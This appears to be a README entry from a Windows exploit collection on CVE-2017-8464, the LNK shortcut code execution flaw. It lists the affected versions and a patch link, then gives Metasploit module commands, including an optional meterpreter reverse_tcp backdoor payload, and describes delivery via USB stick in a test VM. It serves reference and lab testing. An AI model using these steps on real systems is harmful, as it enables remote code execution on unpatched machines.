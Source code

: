 ### CVE-2017-8464

#### Describe

Windows Shell in Microsoft Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, Windows 8, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, Windows 10 Gold, 1511, 1607, 1703, and Windows Server 2016 allows local users or remote attackers to execute arbitrary code via a crafted .LNK file, which is not properly handled during icon display in Windows Explorer or any other application that parses the icon of the shortcut. aka "LNK Remote Code Execution Vulnerability."


#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested |
| ------------------- | ---------------- | ------- | ------ | ------ |
| Windows 10          | x86/x64          |         |        |        |
| Windows 10          | x86/x64          | 1511    |        |        |
| Windows 10          | x86/x64          | 1607    |        |        |
| Windows 10          | x86/x64          | 1703    |        |        |
| Windows 7           | x86/x64          |         | SP1    |        |
| Windows 8.1         | x86/x64          |         |        |        |
| Windows Rt 8.1      |                  |         |        |        |
| Windows Server 2008 | x86/x64          |         | SP2    |        |
| Windows Server 2008 | x86/x64          | R2      | SP1    |        |
| Windows Server 2012 |                  |         |        |        |
| Windows Server 2012 |                  | R2      |        |        |
| Windows Server 2016 |                  |         |        |        |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-8464
```

#### Utilization

Test Machine Windows 7 SP1 X64, use MSF to use

```
use exploits/windows/fileformat/cve_2017_8464_lnk_rce
set payload windows/x64/exec #If the x86 uses Windows / Exec, you can also set the back door windows/x64/meterpreter/reverse_tcp
set cmd cmd.exe
set EXITFUNC thread
run
```

Generate files

![CVE-2017-8464_win7_x86_msf](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-8464_win7_x86_msf.png)

Run the command to copy it into the test directory

```
cp -r /root/.msf4/local/ /root/test
```

![CVE-2017-8464_win7_x86_msf2](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-8464_win7_x86_msf2.png)

Then copy all of these files to the U disk, then plug in the computer.

The test machine is a virtual machine, so you need to make a patch ** KB2533623 ** and a driver**Intel(R)_USB_3.0_eXtensible_Host_Controller_Driver_5.0.4.43_v2**，Then the USB is set to 3.0, and the patch of Windows7 is here.

```
https://github.com/Ascotbe/WinKernelhub/tree/master/Patch
```

GIF map is as follows

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2017-8464_win7_x86.gif)

#### Analyze
- https://my.oschina.net/u/4310658/blog/3695267
- https://www.anquanke.com/post/id/202705
- https://wohin.me/0dayan-quan-external-stuxnet-cve-2017-8464/
- https://blog.csdn.net/baidu_41647119/article/details/103875396
- http://www.vxjump.net/files/vuln_analysis/cve-2017-8464.txt